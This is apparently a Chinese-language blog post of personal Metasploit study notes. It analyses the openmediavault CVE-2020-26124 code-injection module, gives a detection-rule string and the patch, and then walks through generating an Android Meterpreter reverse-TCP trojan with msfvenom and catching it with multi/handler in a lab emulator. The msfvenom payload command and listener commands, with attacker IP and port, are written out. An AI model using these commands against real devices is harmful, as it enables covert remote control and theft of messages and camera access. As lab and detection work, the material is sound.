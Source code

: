 ```yaml
---
layout: post
title: metasploit工具了解
date: 2021-06-26 09:30
tags: 其他
excerpt: "本文介绍metasploit工具使用&学习笔记。"
toc: true
---	
```


## metasploit了解

更新至2020/11/23含有4125个exploits 1125个auxiliary 352个post 592个payloads 45个encoders 10 nops:10、 evasion:7

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

### CVE-2020-26124

造成漏洞原因：

4.1.36之前的openmediavault和5.5.12之前的5.x允许通过rpc.php的sortfield POST参数进行经过身份验证的PHP代码注入攻击，因为config / databasebackend.inc中未使用json_encode_safe。成功利用漏洞后，可以在根操作系统上以root用户身份执行任意命令。

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

1.     show options &set

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

2.     分析openmediacault_rpc_rce.rb文件

大概流程：1.check a.login()  post请求rpc.php文件

                 b.get_target() post请求version信息

                 b.execute_command() post请求数据中携带.exec(命令)

          2.exploit a.execute_cmdstager

3.使用，抓包分析，书写规则

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

执行成功。

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

规则中可以检测：

"sortfield":"'.exec(\"

4.查看补丁信息

添加了json_encode_safe()函数

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image012.jpg)

### 3.1 metasploit_shellcode

### 3.2利用metasploit生成安卓木马

1. 生成木马

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.159.224 lport=55555 R > zky.apk

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image016.jpg)

使用逍遥模拟器打开

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image018.jpg)

注意安装逍遥模拟器需要打开虚拟机虚拟化vt设置

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image020.jpg)

打开metasploit监听端口，运行MainActivity

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image022.jpg)

发送一个真正的apk到安卓模拟器，然后成功启动一个会话，利用这个会话获取基本信息以及短信等信息

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image024.jpg)

使用jadx-gui分析zky.apk文件，可以看到该应用具有一些敏感权限

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image026.jpg)

抓取流量分析：

发送的apk携带链接信息

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image028.jpg)

```
use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set lhost 192.168.159.224

set lport 55555

exploit

webcam_list
```

调试过程中涉及的脚本，之后如果遇到可以进行参考

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image030.jpg)
